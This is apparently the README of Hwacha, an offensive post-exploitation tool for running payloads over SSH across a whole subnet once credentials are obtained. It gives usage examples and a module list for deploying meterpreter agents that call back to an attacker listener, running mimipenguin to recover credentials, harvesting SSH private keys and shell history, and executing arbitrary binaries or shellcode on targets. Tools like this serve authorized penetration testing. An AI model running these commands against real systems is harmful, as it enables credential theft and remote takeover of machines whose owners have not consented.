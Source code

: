 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)

https://www.n00py.io/2017/12/raining-shells-on-linux-environments-with-hwacha/

Hwacha is a tool to quickly execute payloads on UNIX based systems.  Easily collect artifacts or execute shellcode on an entire subnet of systems for which credentials are obtained. 


    $python hwacha.py 
        &&&&     &&         &&        &&
    &&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
       &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
      &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
     &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
      &&    &&   &&      &&    &&     &&     | | | |                   | |
       &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
         &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
    &&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
                 &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
    To run commands, use -x [COMMAND]
    to run modules, use -m [MODULE]
    to specify module options, use -o [ARG=ARG ARG=ARG]
    to see all available modules, use -L
    Example usage:
    python hwacha.py -t 192.168.1.1/24 -u admin  -p password
    python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
    python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
    python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"


    Available Modules:
    [*] meterpreter               Use this to execute a meterpreter agent on the target(s).
                                  REQURED ARGUMENTS: LHOST , LPORT
                                  OPTIONAL ARGUMENTS: TYPE {python, php, 64, osx}
    [*] mimipenguin               Use this to execute a mimipenguin on the target(s) to recover credentials.  (Requires root)
                                  OPTIONAL ARGUMENTS: LHOST, LPORT
    [*] keys                      Use this to collect SSH private keys from the target(s).
    [*] history                   Use this to collect shell history files from the target(s).
    [*] privs                     Use this to enumerate sudo privileges on the targets(s).
    [*] web_delivery               Use this to execute a python script on the target(s).
                                  REQURED ARGUMENTS: PATH
                                  OPTIONAL ARGUMENTS: LISTEN
    [*] custom_bin               Use this to execute a custom binary on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] sudo_exec               Use this to execute a custom binary (with sudo) on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] shellcode               Use this to execute custom shellcode on the target(s).
                                  REQURED ARGUMENTS: PATH
